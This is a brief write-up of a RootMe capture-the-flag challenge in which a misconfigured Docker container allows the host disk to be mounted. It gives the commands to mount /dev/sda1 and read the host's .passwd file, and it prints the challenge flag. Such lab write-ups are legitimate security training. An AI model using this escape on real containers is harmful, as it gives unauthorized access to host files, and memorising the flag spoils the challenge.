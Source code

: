 ```yaml
---
title: RootMe Docker - I am Groot Writeup
date: 2023-10-05
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# RootMe Docket - I am Groot

In this challenge we need to read /.passwd file to complete it
This challenge is misconfigured docker container, so we can mount real host drive and cat .passwd file

```
mkdir -p /mnt/mount_point
mount /dev/sda1 /mnt/mount_point
cat /mnt/mount_point/.passwd
```

We will get flag `b95d3d00d5336d16d7f27454ebe9cc58`